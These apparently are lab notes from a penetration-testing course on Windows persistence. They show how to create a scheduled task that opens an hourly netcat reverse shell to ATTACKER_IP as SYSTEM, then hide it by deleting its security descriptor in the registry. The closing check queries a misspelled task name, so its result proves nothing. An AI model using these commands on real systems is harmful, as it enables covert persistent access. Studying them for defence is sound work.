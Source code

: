 # Task Scheduler

* The most common way to schedule tasks is using the built-in Windows task scheduler.
* Let's create a task that runs a reverse shell every single hour.

```
schtasks /create /sc hourly /mo 1 /tn TaskBackdoor /tr "c:\tools\nc64 -e cmd.exe ATTACKER_IP 4449" /ru SYSTEM
SUCCESS: The scheduled task "TaskBackdoor" has successfully been created.
```

* To check if our task was successfully created, we can use the following command:

```
schtasks /query /tn TaskBackdoor
Folder: \
TaskName                                 Next Run Time          Status
======================================== ====================== ===============
TaskBackdoor                         5/25/2022 8:08:00 AM   Ready
```

### Making Our Task Invisible

* Our task should be up and running by now, but if the compromised user tries to list its scheduled tasks, our backdoor will be noticeable.
* To further hide our scheduled task, we can make it invisible to any user in the system by deleting its `Security Descriptor (SD)`. The security descriptor is simply an ACL that states which users have access to the scheduled task.
* If your user isn't allowed to query a scheduled task, you won't be able to see it anymore, as Windows only shows you the tasks that you have permission to use. -
* Deleting the SD is equivalent to disallowing all users' access to the scheduled task, including administrators.
* The security descriptors of all scheduled tasks are stored in `HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Schedule\TaskCache\Tree\`. You will find a registry key for every task, under which a value named "`SD`" contains the security descriptor.
* **You can only erase the value if you hold `SYSTEM` privileges.**
* To hide our task, let's delete the `SD` value for the "`TaskBackdoor`" task we created before. To do so, we will use `psexec` to open Regedit with SYSTEM privileges:

```
c:\tools\pstools\PsExec64.exe -s -i regedit
```

* We will then delete the security descriptor for our task:
*

    <figure><img src="https://user-images.githubusercontent.com/75596877/181060133-34619dcd-33be-40f5-aa62-2fead6f2b4de.png" alt=""><figcaption></figcaption></figure>
* If we try to query our service again, the system will tell us there is no such task:

```
schtasks /query /tn TaskBackdoors
ERROR: The system cannot find the file specified.
```

